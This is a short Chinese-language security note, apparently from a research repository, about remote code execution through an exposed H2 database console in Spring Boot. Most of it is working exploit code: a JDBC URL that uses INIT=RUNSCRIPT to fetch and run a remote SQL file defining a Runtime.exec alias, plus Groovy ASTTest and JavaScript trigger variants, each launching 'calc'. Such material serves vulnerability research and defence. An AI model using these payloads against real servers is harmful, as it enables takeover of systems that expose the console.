

## h2 databse attack

### 原理

在`SpringBoot`项目中存在有h2的console接口，可以改变JDBC's url达到攻击的目的



#### 条件

需要在配置文件中打开console功能

```yaml
server.port=8000
spring.h2.console.enabled=true
spring.h2.console.settings.web-allow-others=true
```

#### 分析

[戳这里](resource/RunScriptAnalysis.md)

### POC

#### RunScript

```java
jdbc:h2:mem:testdb;TRACE_LEVEL_SYSTEM_OUT=3;INIT=RUNSCRIPT FROM 'http://127.0.0.1:8888/poc.sql'
```

```sql
CREATE ALIAS EXEC AS 'String shellexec(String cmd) throws java.io.IOException {Runtime.getRuntime().exec(cmd);}';CALL EXEC ('calc')
```

#### Groovy

```java
public static void main(String[] args) throws ClassNotFoundException, SQLException {
    Class.forName("org.h2.Driver");
    String groovy = "@groovy.transform.ASTTest(value={" +
            " assert java.lang.Runtime.getRuntime().exec(\"calc\")" +
            "})" +
            "def x";
    String url = "jdbc:h2:mem:dbtest;MODE=MSSQLServer;init=CREATE ALIAS T5 AS '" + groovy + "'";
    Connection connection = DriverManager.getConnection(url);
    connection.close();
}
```

#### JavaScript

```java
public static void main(String[] args) throws ClassNotFoundException, SQLException {
    Class.forName("org.h2.Driver");
    String javaScript = "//javascript\njava.lang.Runtime.getRuntime().exec(\"calc\")";
    String url = "jdbc:h2:mem:test;MODE=MSSQLServer;init=CREATE TRIGGER hhhh BEFORE SELECT ON INFORMATION_SCHEMA.CATALOGS AS '"+ javaScript +"'";
    Connection connection = DriverManager.getConnection(url);
    connection.close();
}
```

